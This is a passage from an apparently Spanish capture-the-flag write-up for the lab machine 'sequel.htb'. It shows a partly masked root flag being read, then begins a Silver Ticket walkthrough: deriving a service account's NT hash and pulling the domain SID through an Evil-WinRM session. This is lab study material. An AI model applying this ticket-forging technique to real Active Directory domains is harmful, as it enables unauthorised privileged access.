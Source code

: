 C:\Users>cd Administrator\Desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is EB33-4140

 Directory of C:\Users\Administrator\Desktop

02/06/2023  04:43 PM    <DIR>          .
02/06/2023  04:43 PM    <DIR>          ..
06/18/2023  11:36 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,886,496,768 bytes free

C:\Users\Administrator\Desktop>type root.txt
94cb2aecfaf2ac8d921aef7e0d******
{% endhighlight %}

<h2>EXTRA</h2>

¿Si lo notaste no?, el usuario sql_svc al ser un usuario de servicio técnicamente podemos usar su hash NTLMv2 para forjar tickets Kerberos de quien sea en el servicio de SQL Server, a este ataque normalmente se le conoce como "Silver Ticket".

Vamos a replicarlo, primero necesitamos el hash NT del usuario de servicio en cuestión que puedes obtener simplemente hasheando su contraseña codificada con UTF-16LE en MD4 y el SID del dominio, el cual podemos obtener fácilmente de varias formas.

{% highlight powershell %}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain


AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=sequel,DC=htb
DeletedObjectsContainer            : CN=Deleted Objects,DC=sequel,DC=htb
DistinguishedName                  : DC=sequel,DC=htb
DNSRoot                            : sequel.htb
DomainControllersContainer         : OU=Domain Controllers,DC=sequel,DC=htb
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-4078382237-1492182817-2568127209
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=sequel,DC=htb
Forest                             : sequel.htb
InfrastructureMaster               : dc.sequel.htb
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=sequel,DC=htb}
LostAndFoundContainer              : CN=LostAndFound,DC=sequel,DC=htb
ManagedBy                          :
Name                               : sequel
NetBIOSName                        : sequel
ObjectClass                        : domainDNS
ObjectGUID                         : 7c4ace6b-9788-44a5-a1a6-8424bcb61f5b
ParentDomain                       :
PDCEmulator                        : dc.sequel.htb
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=sequel,DC=htb
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {dc.sequel.htb}
RIDMaster                          : dc.sequel.htb
SubordinateReferences              : {DC=ForestDnsZones,DC=sequel,DC=htb, DC=DomainDnsZones,DC=sequel,DC=htb, CN=Configuration,DC=sequel,DC=htb}
SystemsContainer                   : CN=System,DC=sequel,DC=htb
UsersContainer                     : CN=Users,DC=sequel,DC=htb
{% endhighlight %}
